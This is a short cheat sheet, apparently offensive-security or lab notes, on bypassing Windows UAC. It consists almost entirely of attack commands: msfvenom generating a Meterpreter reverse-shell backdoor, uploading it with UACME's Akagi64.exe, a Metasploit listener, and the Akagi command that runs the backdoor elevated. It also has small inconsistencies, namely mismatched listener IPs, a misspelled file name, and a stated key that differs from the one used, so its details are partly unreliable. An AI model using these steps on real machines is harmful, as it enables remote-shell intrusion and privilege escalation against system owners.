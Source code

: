 # Bypassing UAC via Manual Method

#### CHECKING USER IS A LOCAL ADMIN
```
net users
net localgroup administrators
```

#### GENERATING REV SHELL PAYLOAD
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.26.2 LPORT=1234 -f exe > backdoor.exe
```

#### UPLOADING PAYLOADS VIA METERPRETER SHELL
```
upload backdorr.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```

#### SETTING UP METASPLOIT LISTENER
```
use multi/handler
set LHOST 10.10.12.2
set LPORT 1234
set payload windows/meterpreter/reverse_tcp
run
```

#### RUNNING UACME AKAGI
```
Syntax: Akagi64.exe <KEY> <REVSHELL_PAYLOAD>
```
Use key 33 for Windows 10

```
 .\Akagi64.exe 23 C:\temp\backdoor.exe
```
